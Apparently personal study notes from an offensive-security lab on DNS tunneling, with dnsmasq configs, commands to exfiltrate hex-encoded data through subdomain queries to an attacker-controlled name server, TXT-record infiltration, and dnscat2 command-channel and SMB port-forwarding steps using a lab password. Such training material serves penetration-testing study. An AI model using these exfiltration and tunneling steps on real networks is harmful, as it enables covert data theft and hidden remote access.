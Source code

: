```yaml
---
tags: dnscat2
---
```

- tunnel data *indirectly* in and out of restrictive network environments

## DNS Tunneling Fundamentals

Scenario:
![[Pasted image 20240828150351.png]]
- FELINEAUTHORITY: registered within this network (or to domain registrar) as the authoritative name server for the **feline.corp** zone
- MULTISERVER03 is configured as the DNS resolver server for PGDATABASE01
- In the real world, we will have registered the feline.corp domain name ourselves, set up the authoritative name server machine ourselves, and told the domain registrar that this server should be known as the authoritative name server for the **feline.corp** zone

**Exfiltrate data** from PGDATABASE01 to our controlled server FELINEAUTHORITY using DNS subdomain query:
1. Serve a DNS server on FELINEAUTHORITY using dnsmasq
	1. Write the dnsmasq config file `dnsmasq.conf` anywhere you want
```
	# Do not read /etc/resolv.conf or /etc/hosts
	no-resolv
	no-hosts
	# Define the zone
	auth-zone=feline.corp
	auth-server=feline.corp   
```
1. 
	2. Start DNS server:
	   `sudo dnsmasq -C dnsmasq.conf -d`
		- `-C dnsmasq.conf`: specify the config file
		- `-d`: no daemon (runs in foreground, so that we can kill it easily later)
	3. Set up tcpdump to listen for DNS packets
	   `sudo tcpdump -i ens192 udp port 53` 
		- `ens192`: the interface to listen on
2. Register the **feline.corp** domain, register FELINEAUTHORITY as the authoritative name server, etc.
3. Exploit a CVE to control CONFLUENCE01 then tunnel to PGDATABASE01.
4. Make DNS query from PGDATABASE01 for "\[hex-string-chunk].feline.corp"
5. The exfiltrated hex string data will be received by FELINEAUTHORITY via the chain of DNS queries. You can check the DNS query in tcpdump

**Infiltrate data** by serving TXT record:

1. Set up config file dnsmasq_txt.conf:
```
	# Do not read /etc/resolv.conf or /etc/hosts 
	no-resolv 
	no-hosts 
	# Define the zone 
	auth-zone=feline.corp 
	auth-server=feline.corp 
	# TXT record 
	txt-record=www.feline.corp,here's something useful! 
	txt-record=www.feline.corp,here's something else less useful.
```
2. Start DNS server:
   `sudo dnsmasq -C dnsmasq_txt.conf -d`
3. On PGDATABASE01, make request for TXT records of `www.feline.corp`:
   `nslookup -type=txt www.feline.corp`

To infiltrate binary data, serve it as a series of Base64 or ASCII hex encoded TXT records, and convert it back to binary on the internal server.

## DNS Tunneling with dnscat2

Tool: [dnscat2](https://github.com/iagox86/dnscat2)
- exfiltrates data with DNS subdomain queries
- infiltrates data with TXT (and other) records
- dnscat2 server runs on an authoritative name server for a particular domain
- dnscat2 client runs on compromised machines
- Not stealthy

Steps:
1. Start dnscat2 server with feline.corp domain as the only argument:
   `dnscat2-server feline.corp`
	- `feline.corp`: the domain we are using
2. Run dnscat2 client binary on PGDATABASE01 (transfer the binary to the machine first if not already installed):
   `./dnscat feline.corp`
	- `feline.corp`: use the domain as the only argument
3. Check for connections back on our dnscat2 server:
   Should see "New window created"
4. On the dnscat2 server, list all active windows:
   `windows`
5. Select a window and list all available commands:
   `window -i 1`
   `?`
6. Background console session by pressing Ctrl+Z
7. On Kali, connect to the SMB port on HRSHARES through our DNS tunnel using the `listen` command (similar to `ssh -L`):
   `listen 127.0.0.1:4455 172.16.2.11:445`
	- `127.0.0.1:4455`: the local loopback interface
	- `172.16.2.11:445`: forwarding destination
8. From another shell on FELINEAUTHORITY, we can list the SMB shares through this port forward:
   `smbclient -p 4455 -L //127.0.0.1 -U hr_admin -- password=Welcome1234`
	- `-p 4455 -L //127.0.0.1`: connect to loopback interface



